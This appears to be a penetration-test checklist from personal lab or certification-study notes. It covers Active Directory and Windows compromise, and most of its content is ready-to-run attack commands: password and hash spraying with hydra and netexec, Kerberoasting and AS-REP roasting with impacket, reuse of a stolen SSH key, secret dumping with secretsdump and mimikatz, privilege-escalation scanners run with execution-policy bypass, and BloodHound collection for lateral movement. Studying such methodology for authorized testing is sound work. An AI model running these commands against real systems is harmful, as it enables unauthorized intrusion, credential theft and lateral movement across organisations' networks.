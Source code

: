 # Penetration Test Checklist



## Unauthenticated Recon - Domain

* [ ] [Create a target list](../../active-directory/password-spraying/creating-a-target-user-list.md)



***

## Initial Compromise of Network

* [ ] nmap scan of internal network
* [ ] smb shares

## Windows Privilege Escalation

{% embed url="https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation" %}

***

## Harvested a New Credential&#x20;

<mark style="color:yellow;">**Make sure to test twice**</mark>. Once for domain and once for  "<mark style="color:yellow;">**--local-auth**</mark>" to test local user passwords.

### Spray Passwords

* ```shell-session
  $ hydra -l "yoshi" -p 'Mushroom!' -M ips.txt rdp
  ```
* ```shell-session
  $ netexec smb ips.txt -u users.txt -p passwords.txt 
  ```
* ```shell-session
  $ netexec winrm ips.txt -u users.txt -p passwords.txt
  ```
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec wmi ips.txt -u users.txt -p passwords.txt 
  </strong></code></pre>
* <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ netexec mssql ips.txt -u users.txt -p passwords.txt -local-auth
  </strong></code></pre>

### Manual Spray (if above didn't recover anything).

* ```shell-session
  $ proxychains evil-winrm -i 10.10.93.154 -u Administrator -p "Passwords"
  ```
* ```shell-session
  $ proxychains xfreerdp /v:10.10.93.154 /u:Administrator /p:password
  ```



***

## Harvested Domain Credential

### Kerbrute

* ```shell-session
  $ proxychains kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
  ```

### Kerberoast

* ```shell-session
  $ proxychains impacket-GetUserSPNs -request -dc-ip 10.10.113.146 corp.com/web_svc
  ```

### ASREP Roast

* ```shell-session
  $ proxychains impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
  ```

***

## Harvest new Hash

* [ ] Check with crackstation
* ```shell-session
  $ NetExec rdp 192.168.215.175 -u users.txt -H hashes.txt
  ```

***

## Harvested a new Private Key

### Spray Intranet (.ssh)

If we have a shell on a box and notice a user has a private key in their home directory, we should test it against all computers with ssh open.

* ```shell-session
  victim@host$ ssh -i id_rsa mario@172.16.233.14
  ```

***

## Popped a new Shell

### Manual Enumeration

* [ ] [Check **ALL** privileges](../windows-privilege-escalation/escalating-privilege.md#insecure-privileges) "whoami /priv" for potential exploits
* [ ] Check for sensitive files
* [ ] Check for potential binary hijacking
* [ ] Check for scheduled tasks / services running under other users.



### Domain Connected User

#### Check ACL's/ACE's

* [ ] bloodhound / sharphound
* [ ] powerview

### PWNED Shell?- Dump Secrets!

* <pre class="language-shell"><code class="lang-shell"><strong>$ proxychains impacket-secretsdump -hashes ":e728ecbadfb02f51ce8eed753f3ff3fd" celia.almeda@10.10.85.142
  </strong></code></pre>
* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\mimikatz.exe
  </strong></code></pre>

***

## Privilege Escalation - Windows

### Automated Enumeration

* <pre class="language-powershell"><code class="lang-powershell"><strong>PS> .\winPEASx64.exe
  </strong></code></pre>
* ```powershell
  PS> powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  ```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md" %}

### Manual Enumeration

* ```
  systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Network Card(s)" /C:"Hotfix(s)"
  ```
* ```
  whoami /priv
  ```
* ```
  net user <user>
  ```
* ```
  net localgroup administrators
  ```
* ```
  cmd.exe /c dir /a C:\
  ```
* ```
  ls "program files"
  ```
* ```
  netstat -nao
  ```
* ```
  .\SharpHound -c All --domain medtech.com --zipfilename MEDTECH.zip
  ```

***

## Lateral Movement

* [ ] bloodhound / sharphound (Shortest path to high value targets)
* [ ] mimikatz
* [ ] netexec spray passwords & hashes
